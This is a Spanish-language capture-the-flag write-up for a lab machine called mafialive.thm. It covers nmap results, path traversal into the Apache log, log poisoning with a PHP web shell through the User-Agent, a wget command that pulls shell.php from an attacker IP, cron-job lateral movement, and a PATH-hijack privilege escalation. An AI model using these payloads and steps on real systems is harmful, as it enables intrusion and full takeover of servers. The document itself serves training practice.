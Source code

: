 ### nmap
```css
```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web 
![[Pasted image 20231115001626.png]]
Al poner el dominio, ya tenemos la primera flag.

## Fuzzing
```
/robots.txt
/test.php
```

## Path Traversal

mirando el ``/etc/passwd`` 
![[Pasted image 20231115001838.png]]

para ver los logs 
```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

## User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```php
<?php system($_GET['cmd']);?>
```
![[Pasted image 20231115002021.png]]

Podemos ejecutar comandos mediante el parámetro ``&cmd=``
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![[Pasted image 20231115002056.png]]

Cargamos una shell en php mediante wget. 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

## Shell www-data

![[Pasted image 20231115002136.png]]
## movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![[Pasted image 20231115002205.png]]
![[Pasted image 20231115002239.png]]

## Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![[Pasted image 20231115002308.png]]

![[Pasted image 20231115002336.png]]
### WE ARE ROOT